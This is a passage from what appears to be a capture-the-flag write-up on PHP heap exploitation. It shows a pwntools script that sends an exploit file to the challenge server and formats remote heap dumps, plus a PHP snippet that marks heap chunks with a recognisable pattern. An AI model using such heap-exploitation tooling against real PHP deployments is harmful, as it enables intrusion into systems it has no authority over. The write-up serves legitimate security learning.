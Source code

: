 ## The catch

After creating a working shell payload in local, testing it out in remote doesn’t even get me the correct libc leak and this is where the pain begin. We don’t really have much options since there’s no Docker or deployment stuff from the challenge files, the author does give some hints regarding remote env but it’s not enough to replicate it locally. What we can do instead is create a helper to take dump of heap layout (because we can get the output from remote) and here’s the script for that.

```py
from pwn import *
from subprocess import check_output
import ctypes

r = remote("43.129.202.109", 47010)

buf = r.recvline(0)
suffix, target = re.findall(r'sha256\(XXXX\+(\w+)\) == (\w+)', buf.decode())[0]
r.sendlineafter(b">\n", check_output(["./pow", suffix, target]).strip())

with open("hax.php", "rb") as f:
    r.sendlineafter(b"> \n", b64e(f.read()).encode())
r.recvline(0)

while True:
    command = r.recvline(0)
    if command == b"DONE":
        break
    elif command == b"START":
        dump = []
        while True:
            buf = r.recvline(0)
            if buf == b"END":
                break
            b = ctypes.c_uint64(int(buf)).value
            dump.append(b)
        for i in range(0, len(dump), 2):
            if i + 1 == len(dump):
                print(f"{i * 8:03X} 0x{dump[i]:016X}")
            else:
                print(f"{i * 8:03X} 0x{dump[i]:016X} 0x{dump[i+1]:016X}")
        print(" ================================= ")
    else:
        print(command.decode())
r.interactive()
```

This really helps A LOT when taking a dump of heap layout. First we need to mark our chunks with a recognize-able pattern and start heap dump with `START\n` and end it with `END\n`, the python script will be the one in charge to make it looks nicer.

```php
$x = [];
array_push($x,
    creatbuf(0x11),
    creatbuf(0x11),
    creatbuf(0x11),
    creatbuf(0x11)
);
...
for ($i = 0; $i < 4; $i++) {
    $x[$i][0] = 0x333333333333; // recognizeable pattern
    $x[$i][1] = 0x333333333333;
    $x[$i][2] = 0x333333333333;
}

```